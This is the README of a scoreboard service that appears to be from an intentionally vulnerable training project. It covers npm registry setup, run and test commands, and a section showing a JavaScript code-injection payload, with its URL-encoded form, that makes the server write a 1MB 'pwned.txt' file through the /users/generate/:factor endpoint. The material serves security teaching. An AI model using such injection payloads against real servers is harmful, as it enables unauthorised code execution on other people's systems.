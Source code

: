 [![codecov-badge]][codecov]

# Mad Scoreboard Service

## Description

This is a service that generates a list of users with a score. The score is generated randomly and the list is sorted by
the score. The list is returned as a JSON object.

## Installation

### Consuming npm packages from GitHub's NPM registry

This project uses a package from the @MAD-Goat-Project organization's GitHub Package Registry.

To consume npm packages from GitHub's NPM registry follow these steps:

- Create a personal access token with the read:packages scope.
- Create or edit an existing ~/.npmrc file to include the following line, replacing TOKEN with your personal access
  token:
    - //npm.pkg.github.com/:_authToken=TOKEN
- If needed, install the package using the standard yarn add command:
    - yarn add @OWNER/PACKAGE_NAME

An example of a .npmrc file that grants access to the @octokit npm organization:

```bash
@:registry=https://npm.pkg.github.com"
@MAD-Goat-Project:registry=https://npm.pkg.github.com
//npm.pkg.github.com/:_authToken=AUTH_TOKEN
```

Be careful while writing the organization name.

NPM is not case-sensitive, so it doesn't matter if you write @MAD-Goat-Project or @mad-goat-project.

But yarn is case-sensitive, so you have to write @MAD-Goat-Project.

### Installing dependencies

```bash
$ yarn
```

## Running the app

```bash
# development
$ yarn run start

# watch mode
$ yarn run start:dev

# production mode
$ yarn run start:prod
```

## Test

```bash
# unit tests
$ yarn run test

# e2e tests
$ yarn run test:e2e

# test coverage
$ yarn run test:cov
```

## Example of a malicious payload

### URL for the API call

GET : {{BaseURL}}:{{Port}}/users/generate/:factor

### Malicious JavaScript code

This malicious payload will create a file named pwned.txt in the root directory of the server with the size of 1MB.

```bash
var fs = require("fs")

stream = fs.createWriteStream("pwned.txt", { flags: "w" }); 

const megabyte = "1000000", outputStr = "yougotpwned"; 
for (var i = 0; i < megabyte / outputStr.length; i++) { 
    stream.write("yougotpwned"); 
} 
stream.end();
```

### Encoded malicious JavaScript code

You can encode the malicious JavaScript code with this command (you need to have jq installed):

```bash
printf %s 'var fs=require("fs"),stream=fs.createWriteStream("pwned.txt",{flags:"w"});const megabyte="1000000",outputStr="yougotpwned";for(var i=0;i<megabyte/outputStr.length;i++) {stream.write("yougotpwned");}stream.end();'|jq -sRr @uri
```

The output will be:
```bash
var%20fs%3Drequire(%22fs%22)%2Cstream%3Dfs.createWriteStream(%22pwned.txt%22%2C%7Bflags%3A%22w%22%7D)%3Bconst%20megabyte%3D%221000000%22%2CoutputStr%3D%22yougotpwned%22%3Bfor(var%20i%3D0%3Bi%3Cmegabyte%2FoutputStr.length%3Bi%2B%2B)%20%7Bstream.write(%22yougotpwned%22)%3B%7Dstream.end()%3B
```

This malicious payload will create a file named pwned.txt in the root directory of the server.


[codecov]: https://codecov.io/gh/MAD-Goat-Project/mad-scoreboard-service

[codecov-badge]: https://codecov.io/gh/MAD-Goat-Project/mad-scoreboard-service/graph/badge.svg?token=2AVIP9VNY4

